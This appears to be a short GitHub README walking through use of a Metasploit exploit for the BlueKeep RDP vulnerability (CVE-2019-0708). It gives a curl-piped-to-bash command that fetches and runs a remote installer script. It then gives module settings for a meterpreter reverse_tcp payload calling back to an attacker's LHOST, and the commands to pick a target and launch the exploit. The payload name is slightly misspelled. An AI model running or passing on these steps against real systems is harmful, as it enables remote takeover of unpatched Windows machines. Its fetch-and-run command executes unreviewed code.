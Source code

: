 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)


- Automation installer:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
